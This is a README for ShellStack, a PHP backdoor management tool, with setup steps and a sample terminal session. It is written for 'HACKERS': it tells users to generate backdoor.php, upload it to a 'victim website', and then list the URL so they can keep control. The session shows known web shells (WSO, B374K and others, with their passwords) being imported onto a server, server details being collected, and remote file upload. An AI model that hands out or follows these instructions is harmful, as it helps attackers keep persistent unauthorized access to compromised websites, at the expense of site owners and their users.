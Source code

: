 # ShellStack 
#### Version 1.0
#### Coded By R3D#@X0R_2H1N A.K.A Tuhinshubhra
----
ShellStack is a PHP based backdoor management tool. This Tool comes handy for "HACKERS" who wish to keep a track of every website they hack. The tool generates a backdoor file which you just have to upload to the site and put the backdoor URL in the shells.txt present in the tool's directory.

# With ShellStack You can
- Import PHP Shells
- Get Server Details
- Upload Files From Your System using your terminal
- And Above all You Can Manage Your Backdoors Efficiently

# How To Use
1. `git clone https://github.com/Tuhinshubhra/shellstack`
2. `cd shellstack`
3. `php shellstack.php`
4. `generatebd` and exit the tool use `CTRL + C` - This will generate a backdoor file in the same directory as of the tool in a file named **backdoor.php**
5. Upload The Backdoor File To The Victim website
6. Copy The Backdoor URL and paste it in the **shells.txt** file present in the tool's directory and save it (*Each backdoor is separated by a new line*)
7. `php shellstack.php`
8. Enter The **Serial No** Assigned To The Backdoor
9. Rest is pretty Self explanatory

**Watch The Video Here:** https://youtu.be/umk3ZNZ5Y1I

# Requirements
``` 
php
curl 
```
# Example
```
root@R3D_MACH1N3:/home/redhaxor/Desktop/shellstack# php shellstack.php


________________________________________________________________________________
_______ _     _ _______               _______ _______ _______ _______ _     _
|______ |_____| |______ |      |      |______    |    |_____| |       |____/
______| |     | |______ |_____ |_____ ______|    |    |     | |_____  |    \_
________________________________________________________________________________

                    Simple Backdoor Management System
                    Coded By R3D#@x0R_2H1N A.K.A Tuhinshubhra 
                    Shout Out: LulZSec India  
================================================================================



List Of Backdoors:

0. http://localhost/backdoor.php
=============================================

[#] Enter Either Of These (Backdoor No.|help|generatebd) : 0

[+] Shell Selected: http://localhost/backdoor.php
[+] Validating Backdoor: Backdoor Found!

List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):2

[+] Server Info
[i] Sending Request And Getting Response...
[i] Server: Linux R3D_MACH1N3 4.9.0-kali4-amd64 #1 SMP Debian 4.9.30-1kali1 (2017-06-06) x86_64
[i] Server IP: 127.0.0.1


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):1


List Of Shells
===============
[1] Dhanush shell {User & Pass : shellstack123}
[2] B374K shell {Pass : shellstack123}
[3] Kurama shell V.1.0 {Pass : red}
[4] WSO shell {Pass : shellstack123}
[5] MiNi shell {User & Pass : shellstack123}

[#] Select Shell To Import(1-5):1


[i] Importing Shell...
[i] Sending Request And Getting Response...
[R] Dhanush Shell Imported Successfully To /var/www/html/dhanush.php


Press Enter To Continue


List Of Actions
================
[1] Import PHP Shells
[2] Server Details
[3] Remove Backdoor
[4] Remote File Upload
[5] Exit

[#] Select Option(1|2|3|4|5):5
root@R3D_MACH1N3:/home/redhaxor/Desktop/shellstack# 

```
# Release(s)
> Version 1.0 On 14-06-2017

# screenshots

![Alt text](http://oi68.tinypic.com/2mybzo3.jpg "Screenshot")
![Alt text](http://oi64.tinypic.com/2yycs1t.jpg "Screenshot")
